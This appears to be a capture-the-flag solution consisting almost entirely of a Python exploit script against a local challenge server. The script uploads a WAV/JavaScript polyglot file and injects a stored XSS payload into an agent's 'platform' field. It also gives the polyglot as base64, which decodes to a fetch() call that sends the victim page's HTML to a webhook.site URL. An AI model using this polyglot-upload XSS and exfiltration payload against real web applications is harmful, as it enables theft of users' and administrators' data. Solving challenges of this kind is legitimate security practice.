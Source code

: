 #### Script

```python
#!/usr/bin/env python3

import sys
import requests

TARGET = "http://localhost:1337"
REGISTER_ENDPOINT = "/agents/register"
UPLOAD_ENDPOINT = "/agents/upload/{}/{}"
SEND_INFO_ENDPOINT = "/agents/details/{}/{}"
XSS_PAYLOAD = "<script src=\"/uploads/{}\"></script>"


if __name__ == "__main__":
    print("[*] Registering ..")
    s = requests.Session()
    agent = s.get(TARGET + REGISTER_ENDPOINT).json()
    token = agent['token']
    agent_id = agent['identifier']
    print(agent)

    print('[*] UPLOAD ...')
    upload_id = s.post(
            TARGET + UPLOAD_ENDPOINT.format(agent_id, token),
            files={"recording": ("mal.wav", open('mal.wav', 'rb'), "audio/wave")}
            ).text
    print(upload_id)

    print("[*] Sending malicious information")
    payload = XSS_PAYLOAD.format(upload_id)
    info = {"arch": "0wn3d :: - :)",
            "hostname": ":')",
            "platform": payload}
    r = s.post(
            TARGET + SEND_INFO_ENDPOINT.format(agent['identifier'], agent['token']),
            json=info)
    print(r.text)

    print("[*] Check webhook.site.")
```

base64 encoded `mal.wav` file:
```
UklGRi8qFgBXQVZFZm10Ki89IiI7ZmV0Y2goImh0dHBzOi8vd2ViaG9vay5zaXRlLzExYTk2YjU4LTNmYjAtNDliMy1hNDc1LWUxOTEzZDNkMmNkOC8/Ym9keT0iK2J0b2EoZW5jb2RlVVJJQ29tcG9uZW50KGRvY3VtZW50LmJvZHkuaW5uZXJIVE1MKSksIHttb2RlOiAibm8tY29ycyIsfSk7DQo=
```

